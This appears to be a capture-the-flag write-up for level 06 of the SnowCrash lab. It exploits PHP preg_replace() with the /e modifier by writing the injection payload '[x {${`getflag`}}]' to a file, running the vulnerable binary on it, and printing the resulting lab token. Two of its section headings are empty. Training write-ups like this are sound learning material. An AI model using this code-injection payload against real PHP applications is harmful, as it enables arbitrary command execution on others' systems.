 # Level 06

## Vulnerability

## Context

## Solution

"If the above example was written with preg_replace() and the e modifier, the code could be easily exploited by passing in a string"

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
```

```
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
